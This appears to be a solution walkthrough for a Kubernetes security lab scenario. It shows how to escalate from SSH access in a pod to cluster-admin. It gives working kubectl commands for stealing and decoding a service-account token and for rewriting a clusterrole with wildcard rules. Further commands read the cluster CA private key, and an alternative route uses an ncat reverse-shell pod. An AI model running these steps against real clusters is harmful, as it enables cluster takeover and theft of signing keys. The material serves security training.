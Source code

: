 # SSH to Get Secrets
This scenario begins with ssh access to a pod. The ssh credentials can be found in the scenario setup.

There are a couple of ways you can approach this one. First up (for either approach) we get secrets
1. `kubectl get po -n kube-system` will fail (user doesn't have those rights)
2. `kubectl get secrets -n kube-system` will work and give you a list of available secrets

Now the question is, which secret to use. The first option might be the clusterrole-aggregation-controller, which needs steps that look like this.

3. This will give you the clusterrole-aggregation-controller token `kubectl -n kube-system get secret clusterrole-aggregation-controller-token-[RAND] -o json`
4. base64 decode the token field
5. Use the token as part of a kubectl command  `kubectl --as test --as=group=system:masters --token="[TOKEN]" get clusterroles` to confirm it's working
6. Edit the service account for the token you're using (weird but this particular service account token has the "escalate" permission which lets you do this) `kubectl edit clusterrole system:controller:clusterrole-aggregation-controller`

Add the following lines in the "rules" section

```yaml
- apiGroups:
  - '*'
  resources:
  - '*'
  verbs:
  - '*'
```

7. Now you're a `cluster-admin` :)
8. get the API server pod name `kubectl --token="[TOKEN]" -n kube-system get pods`
9. get the key `kubectl --token="[TOKEN]" -n kube-system exec [API_SERVER_POD] cat /etc/kubernetes/pki/ca.key`

Here's another way of doing it, as some service accounts have got `create pods`

3. This will give you the replicaset-controller token `kubectl -n kube-system get secret system:controller:replicaset-controller-[RAND] -o json`
4. base64 deocde the token field
5. Start a new shell and exec into the client machine, then start an ncat listener on the client machine `ncat -l -p 8989`
6. run the pod `ncat-reverse-shell-pod.yml` on the target host, remembering to modify the target IP address to that of the client machine.
7. This should create a shell for you to access which has the pki directory mounted in `/pki`
